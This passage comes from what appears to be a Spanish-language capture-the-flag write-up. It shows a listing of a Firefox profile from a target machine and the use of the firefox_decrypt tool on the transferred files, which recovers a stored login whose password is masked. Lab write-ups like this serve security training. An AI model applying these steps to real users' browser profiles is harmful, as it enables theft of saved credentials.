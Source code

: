 ```
drw-------  3 1001 1000    4096 Mar 16  2024 crashes
drw-------  3 1001 1000    4096 Mar 16  2024 datareporting
-rw-------  1 1001 1000    1325 Mar 16  2024 extension-preferences.json
-rw-------  1 1001 1000   35107 Mar 16  2024 extensions.json
drw-------  2 1001 1000    4096 Mar 16  2024 extension-store
-rw-------  1 1001 1000 5242880 Mar 16  2024 favicons.sqlite
-rw-------  1 1001 1000  262144 Mar 16  2024 formhistory.sqlite
drw-------  3 1001 1000    4096 Mar 16  2024 gmp-gmpopenh264
-rw-------  1 1001 1000     410 Mar 16  2024 handlers.json
-rw-------  1 1001 1000  294912 Mar 16  2024 key4.db
lrwxrwxrwx  1 1001 1000      16 Mar 16  2024 lock -> 127.0.1.1:+24731
-rw-------  1 1001 1000     703 Mar 16  2024 logins-backup.json
-rw-------  1 1001 1000     645 Mar 16  2024 logins.json
drw-------  2 1001 1000    4096 Mar 16  2024 minidumps
-rw-------  1 1001 1000       0 Mar 16  2024 .parentlock
-rw-------  1 1001 1000   98304 Mar 16  2024 permissions.sqlite
-rw-------  1 1001 1000     468 Mar 16  2024 pkcs11.txt
-rw-------  1 1001 1000 5242880 Mar 16  2024 places.sqlite
-rw-------  1 1001 1000   11342 Mar 16  2024 prefs.js
-rw-------  1 1001 1000   65536 Mar 16  2024 protections.sqlite
drw-------  3 1001 1000    4096 Mar 16  2024 safebrowsing
-rw-------  1 1001 1000     354 Mar 16  2024 search.json.mozlz4
drw-------  2 1001 1000    4096 Mar 16  2024 security_state
-rw-------  1 1001 1000     288 Mar 16  2024 sessionCheckpoints.json
drw-------  2 1001 1000    4096 Mar 16  2024 sessionstore-backups
-rw-------  1 1001 1000    1851 Mar 16  2024 sessionstore.jsonlz4
drw-------  3 1001 1000    4096 Mar 16  2024 settings
-rw-------  1 1001 1000      18 Mar 16  2024 shield-preference-experiments.json
-rw-------  1 1001 1000     638 Mar 16  2024 SiteSecurityServiceState.txt
drw-------  2 1001 1000    4096 Mar 16  2024 startupCache
drw-------  6 1001 1000    4096 Mar 16  2024 storage
-rw-------  1 1001 1000    4096 Mar 16  2024 storage.sqlite
-rw-------  1 1001 1000   32768 Mar 16  2024 storage-sync-v2.sqlite
-rw-------  1 1001 1000   32768 Mar 16  2024 storage-sync-v2.sqlite-shm
-rw-------  1 1001 1000  229576 Mar 16  2024 storage-sync-v2.sqlite-wal
-rw-------  1 1001 1000      50 Mar 16  2024 times.json
-rw-------  1 1001 1000   98304 Mar 16  2024 webappsstore.sqlite
-rw-------  1 1001 1000     141 Mar 16  2024 xulstore.json
```

Una vez transferidos los ficheros necesarios, necesitaremos descargar y ejecutar la herramienta [**firefox_decrypt**](https://github.com/unode/firefox_decrypt):
```
> python firefox_decrypt.py /home/kali/Documents/tlb/exploit
2024-09-28 20:37:01,146 - WARNING - profile.ini not found in /home/kali/Documents/tlb/exploit
2024-09-28 20:37:01,147 - WARNING - Continuing and assuming '/home/kali/Documents/tlb/exploit' is a profile location

Website:   https://www.buckinghampalace.com
Username: 'Charles'
Password: '************'
```
¡Hasta la próxima! ¡Que la "*suerte*" os acompañe!